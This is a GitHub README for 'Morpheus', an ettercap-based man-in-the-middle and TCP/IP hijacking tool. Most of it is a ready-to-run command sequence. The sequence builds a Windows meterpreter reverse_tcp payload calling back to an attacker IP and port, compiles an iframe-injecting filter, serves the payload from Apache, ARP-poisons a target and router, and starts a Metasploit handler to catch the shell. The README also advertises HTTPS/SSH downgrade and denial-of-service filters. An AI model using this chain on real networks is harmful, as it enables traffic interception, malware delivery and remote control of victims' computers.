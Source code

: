 [![Version](https://img.shields.io/badge/MORPHEUS-1.0-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-developing-red.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-linux-orange.svg)]()
[![Github All Releases](https://img.shields.io/github/downloads/atom/atom/total.svg)]()
[![AUR](https://img.shields.io/aur/license/yaourt.svg)]()

# Morpheus - automated ettercap TCP/IP Hijacking tool
    Version release : v1.0-Alpha
    Author : pedro ubuntu  [ r00t-3xp10it ]
    Distros Supported : Linux Ubuntu, Kali, Mint, Parrot OS
    Suspicious-Shell-Activity (SSA) RedTeam develop @2016

# LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use
    of this tool, remember that attacking targets without prior
    consent is illegal and punished by law.

# Framework description
    morpheus.sh framework automates tcp/ip packet manipulation tasks by using
    ettercap filters to manipulate tcp/udp requests under MitM attacks replacing
    the http packet contents by our own contents befor sending the http packet
    back to the host that have request for it (tcp/ip hijacking)

    work floow:
    1º - poison local lan (mitm)
    2º - target requests webpage
    3º - attacker modifies webpage response
    4º - modified packet forward back to target

# What can we acomplish by using ettercap filters?
    morpheus ships with a collection of etter filters writen be me to acomplish various tasks:
    replacing images in webpage, replace text in webpages, inject payloads using html <form> tag
    and denial-of-service attack (drop,kill packets from source), https/ssh downgrade attacks, also
    gives you the ability to build/compile your etter filter from scratch and lunch it truth morpheus.

# Framework limitations
    1º - morpheus will not work if target system its protected againt ARP poison attacks
    2º - target system sometimes needs to clear net cache to arp poison be effective
    3º - replacement string must have the same length as original string to replace
         "eg. replace("word_hello", "hello_word"); <-- the same number of leters"

# Dependencies
    ettercap, zenity

# Build msfvenom binary
    sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=666 -f exe -o payload.exe



# Compile [filter].eft filter into iframe.ef
    sudo etterfilter /root/iframe.eft -o /root/iframe.ef

# copy files to apache2 webroot
    sudo cp /root/payload.exe /var/www/html

# Sart apache2 service
    /etc/init.d/apache2 start

# ip_forwarding
    echo "1" > /proc/sys/net/ipv4/ip_forward

# run ettercap mitm+filter
    sudo ettercap -T -q -i wlan0 -F /root/iframe.ef -M ARP /targetip/ /routerip/


# IF YOUR PC USES IPV6 THEN USE THIS CONFIG INSTEAD OF THE ABOVE CODE
    sudo ettercap -T -q -i wlan0 -F /root/iframe.ef -M ARP /targetip// /routerip//


# Start a multi-handler
    sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.67; set LPORT 666; set PAYLOAD windows/meterpreter/reverse_tcp; exploit -j -k'


_EOF
